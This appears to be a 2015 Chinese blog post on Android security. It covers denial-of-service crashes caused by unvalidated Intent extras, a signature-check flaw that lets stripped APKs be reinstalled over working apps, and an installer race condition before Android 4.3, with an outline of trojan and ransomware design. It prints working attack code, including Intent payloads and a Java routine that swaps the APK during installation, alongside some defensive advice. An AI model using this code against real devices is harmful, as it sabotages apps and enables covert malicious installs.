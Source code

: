 ```yaml
---
layout: post
title: "Android安全浅析"
date: 2015-07-23 14:36:25 +0800
comments: true
categories: 
---
```




killBackgroundProcesses引起的事件

前一段时间，知乎上有一个非常热门的话题，就是“美团通过killBackgroundProcesses来杀死竞争对手APP”，
但是这个话题感觉炒作的成份更多点，或被一些有心人放大了来说，只有一定经验的Android开发，都知道
killBackgrooundProcesses这个方法并没有想像的那么强大，很多时候，并没有得到想要的效果，而且现在
的Android都会重新启动那些意外死亡的进程的，所以感觉这事情是被人放大了来炒作了。

如果真要通过杀死竞争对手的APP这种方式来竞争，根本不会用这样的方法了。有一些方法可以让一些APP根本
无法工作。

### 由于自身漏洞引发的无法工作漏洞

``` java 
Intent i = new Intent();
if (i.getAction().equals("TestForNullPointerException")) {
    Log.d("TAG", "Test for Android Refuse Service Bug");
}
```

上面的代码，应试很多人都会这样写，而且也写了不少，看起来没什么问题，但是这个却会引起一个攻击漏洞

``` java 
adb shell am start -n xxx.xxx.xxx/.MainActivity
```

遇到这样的攻击代码，可能就会导致APP崩溃，

而且当攻击者通过APP不停的进行攻击时，就会不停的提示崩溃，用户就极有可能会把那相APP卸载
这样就很可能达到“消灭对手”的目的

再例如下面的代码，就会被人利用来进行攻击

``` java 
Intent i = getIntent();
String test = (String)i.getSerializableExtra("serializable_key");
```

攻击代码（根据对应APP的Intent传递数据缺少校验来进行修改）

``` java 
Intent i = new Intent();
i.setClassName("xxx.xxxx.xxxxx", "xxx.xxxx.xxxxx.MainActivity");
i.putExtra("serializable_key", BigInteger.valueOf(1));
startActivity(i);
```

这个漏洞的情况非常常见，而且可利用的情况非常的多。例如：

``` java 
Intent intent = getIntent();
ArrayList<Integer> intArray = intent.getIntegerArrayListExtra("user_id");
if (intArray != null) {
    for (int i = 0; i < USER_NUM; i++) {
        intArray.get(i);
    }
}
```

这样的代码也是很容易就被利用到的

攻击代码：

``` java 
Intent intent = new Intent();
intent.setClassName("xxx.xxxx.xxxxx", "xxx.xxxx.xxxxx.MainActivity");

ArrayList<Integer> user_id = new ArrayList<Integer>();

intent.putExtra("user_id", user_id);
startActivity(intent);
```

会有这个漏洞还是因为校验数据合法性的问题，所以在使用传递过来的数据时，应该先做好数据校验，或者加
上try/catch代码块，以免由于疏忽引起的漏洞被有心人利用。


> 建议：不必要的组件设置为`android:exported="false"`，对数据做好正确性的校验，通过Intent传递的数据处理加上try/catch。


### Android自身漏洞引发的无法工作漏洞

Android开发者都知道，如果一个APP包名相同，签名不同，是不能覆盖安装的，这样可以防止别人把APP植入
代码后再重新打包来进行安装。

但是在Android的签名检验里面却有一个漏洞，就是，如果一个apk里面的文件少了，比如apk里面的dex文件少
了一个文件什么的，这样子的apk，Android的签名校验会认为这个apk没有被修改过。

这样子就会被人利用来让一些APP无法工作，严重的，把整台手机的APP都变成无法工作，让手机彻底变“砖头”

攻击的流程也很简单

在Android设备中，其apk存储路径主要集中在 /data/app (用户应用)，/system/app(系统预装应用)和
/system/priv-app(系统核心应用)，但这三个文件夹均提供了读权限给任意的用户，不需要root：

这样子，就可以从这些目录里面把手机里的APP读取出来，然后，再删除里面的一些文件，再覆盖安装回去
这样子，因为签名一样，包名一样，就是提示为升级或覆盖安装，一但安装，那样这个应用就将无法工作

在删除apk中的文件时，不能删除classes.dex、AndroidManifest.xml以及/META-INFO文件夹。


这个漏洞的危害是非常大的，特别是有root的手机，因为可以静默安装，所以防不胜防，没有root的还好，
因为还会提示应用的安装。


从上面的攻击漏洞可以看到，这个需要用户安装APP，那样子，用户就可以选择不安装就可以了。
虽然要通过覆盖安装再会生效，这样会比较麻烦，但是事情没有绝对了，有一种方法可以实现无root权限
来进行“伪静默安装”的

在Android4.3之前，甚至一部分4.3的手机，安装的apk的时候都会有一个漏洞，那就是会被安装的应用会被
替换掉

通常，安装一个应用会有以下几个流程

* 弹出权限的确认页面
* 用户点击确认之后，就开始进入安装流程，然后就安装成功

可以发现，在这两个步骤之间，是有一个时间间隔的，这样，就可以利用这个时间间隔，把原来要安装的
apk替换成别的apk，这样子就会让安装进去的apk拥有意想不到的权限，

会发生这个是因为Android4.3之前，并没有对apk文件进行再次的校验引起的。

攻击代码示例

``` java 
    protected void onCreate(Bundle savedInstanceState)
	{
		super.onCreate(savedInstanceState);
		setContentView(R.layout.activity_main);
		
		final ActivityManager am = (ActivityManager) getSystemService(Context.ACTIVITY_SERVICE);
		
		new Thread(new Runnable()
		{
			private boolean isReplace = false;
			
			@SuppressLint("SdCardPath")
			@Override
			public void run()
			{
				while(true)
				{
					@SuppressWarnings("deprecation")
					List<RunningTaskInfo> taskInfos = am.getRunningTasks(1);
					RunningTaskInfo taskInfo = taskInfos.get(0);
					ComponentName activity = taskInfo.topActivity;
					Log.v("vcode", "----" + activity);
					if(activity.toString().contains("PackageInstallerActivity") && !isReplace)
					{
						try
						{
							File file = new File("/sdcard/aaa.apk");
							file.renameTo(new File("/sdcard/aaa_.apk"));
							File attackFile = new File("/sdcard/o.apk");
							attackFile.renameTo(new File("/sdcard/aaa.apk"));
							isReplace = true;
							Log.v("vcode", "---------------------" + isReplace);
						}
						catch (Exception e)
						{
							Log.v("vcode", "--", e);
							e.printStackTrace();
						}
					}
					
					try
					{
						Thread.sleep(3000);
					}
					catch (Exception e)
					{
						e.printStackTrace();
					}
				}
			}
		}).start();
	}
```

这个漏洞是非常强大的，可以实现免root的伪静默安装


除了上面说到的这些漏洞，其实还有很多的漏洞可以实行攻击的，系统级的漏洞我们可能不能做什么
但是如果是由于自己的疏忽引发的漏洞还是要做好的

* allowBackup
* 四大组件
* 动态加载
* 数据库，SharedPreferences

这些都是很容易出问题的地方

最后说一下Android的病毒木马

其实Android的病毒木马都是带有强烈的欺骗性的，都是通过模仿别的应用来达到欺骗的效果，
比如说伪造QQ的密码修改界面，让用户修改，然后就可以盗号了。很多都是这样一个形式

主要有下面的几大模块

* 一个和官方一样的界面
* 读取短信，发送短信，获取通信录的权限（发送短信给通讯录里面的人，传播）
* 注册设备管理器*(防止被卸载，隐藏图标等)
* 指令模块（短信指令，网络指令）


还有一些就是更暴力的，明抢的方式，就是通过锁屏类软件，让用户手机无法使用，如果想要使用，就汇钱
然后才能打开锁屏。
